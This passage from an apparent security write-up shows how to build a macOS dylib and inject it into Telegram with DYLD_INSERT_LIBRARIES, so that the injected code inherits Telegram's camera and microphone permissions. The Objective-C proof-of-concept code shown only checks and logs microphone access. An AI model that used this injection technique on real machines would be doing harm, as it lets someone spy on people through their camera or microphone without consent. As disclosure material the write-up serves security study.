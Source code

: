 
Here we saved our code in `CamTest.m`.


```
gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
```


![](/assets/images/5e6a1be0f009d992b76d7e0cfbde8a36)


Our `DyLib` is ready, Let's Inject it into `Telegram`:


```
DYLD_INSERT_LIBRARIES=CamTest.dylib /Applications/Telegram.app/Contents/MacOS/Telegram
```


![](/assets/images/8d2b331a77b17818b736369b967cf3b3)


As we can see we can access the camera as Telegram has access to it. The same goes for the microphone:

Microphone code:


```
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface MicrophoneAccessChecker : NSObject

+ (BOOL)hasMicrophoneAccess;

@end

@implementation MicrophoneAccessChecker

+ (BOOL)hasMicrophoneAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to microphone granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to microphone denied.");
        return NO;
    }
}

@end

__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    [MicrophoneAccessChecker hasMicrophoneAccess];
}
```
